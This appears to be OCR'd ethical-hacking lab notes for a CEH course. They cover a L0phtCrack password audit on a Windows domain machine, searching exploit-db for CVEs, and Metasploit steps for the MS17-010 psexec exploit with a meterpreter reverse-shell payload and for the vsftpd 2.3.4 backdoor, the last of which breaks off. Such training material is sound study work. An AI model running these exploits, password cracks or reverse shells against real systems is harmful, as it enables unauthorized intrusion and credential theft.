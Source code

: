     If the machine is under a domain, enter the domain name in the Domain section. Here, Windows Server 2022 belongs to the CEH.com domain. 

    click next proceed  

    Choose audit type > select Through Password audit > next 

    In Reporting option select Generate Report at End of Auditing and save csv file in desired location > next 

    Click finish on summary 

    L0phtCrack will show all passwords and might take some time 

    Can click stop after successfully attaining weak and strong passwords 

 

 

TASK 3: FIND VULNERABILITIES ON EXPLOIT SITES 

 

    Go to https://www.exploit-db.com/ 

    On left panel click Search EDB 

    In platform select OS 

    Click on any vulnerabilities 

    We can find CVE ID , author , platform , type  

    You can download and make changes using notepad or ++ 

 

 

METASPLOIT AND WINDOWS 10 HACKING 

 

    nmap –A –sC <targ_ip> 

    sudo msfconsole then search ethernal 

    use exploit/windows/smb/ms17_010_psexec  

    If it wont show set windows/meterpreter/reverse_tcp then set the payload 

    set RHOSTS <TARG> 

    set LHOSTS <LOCAL> 

    exploit 

 

 

EXPLOIT THE FTP VSFTPD 2.3.4 VULNERABILITY 

 

    msfconsole 

    use exploit/unix/ftp/vsftpd_234_backdoor 
